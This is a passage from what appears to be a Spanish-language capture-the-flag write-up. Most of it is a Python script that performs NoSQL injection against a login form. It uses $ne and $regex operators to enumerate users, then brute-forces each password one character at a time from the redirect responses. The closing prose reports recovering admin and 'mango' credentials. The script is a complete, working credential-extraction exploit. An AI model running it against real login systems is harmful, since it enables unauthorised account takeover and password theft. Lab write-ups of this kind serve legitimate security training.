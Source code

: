 ```python
    "Cache-Control": "max-age=0",
}

def find_password_length(username, max_length=64):
    for i in range(1, max_length+1):
        payload = f"username={username}&password[$regex]=.{{{i}}}&login=login"
        response = requests.post(url, headers=headers, data=payload, allow_redirects=False)
        if response.status_code != 302:
            return i-1

def find_password(username, length):
    chars="""0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#'(),-/:;<=>@[]^_`{}~ """
    password = ''
    for i in reversed(range(length)):
        char_found = False
        for char in chars:
            payload=f"username={username}&password[$regex]={quote(password+char)}.{{{i}}}&login=login"
            response = requests.post(url, headers=headers, data=payload, allow_redirects=False)
            if response.status_code == 302:
                char_found = True
                password += char
                break
        if not char_found:
            print(f"All chars used but no match found. The password probably includes special chars")
            return ''
    return password

for username in usernames:
    payload=f"username[$eq]={username}&password[$ne]=&login=login"
    response = requests.post(url, headers=headers, data=payload, allow_redirects=False)
    if response.status_code == 302:
        print(f"User {username} is valid")
        length = find_password_length(username)
        print(f"Password length: {length}")
        password = find_password(username, length)
        if password:
            print("Password found!: ", password)
        else:
            print("Error finding password")
```

Con esto obtenemos 2 credenciales, una es del usuario admin y otra del usuario
`mango`. Si introducimos los datos del usuario admin en el formulario somos
redirigidos a home.php que es otro agujero sin salida y las credenciales de
mango no hacen nada en el formulario.

# Entrada a la máquina
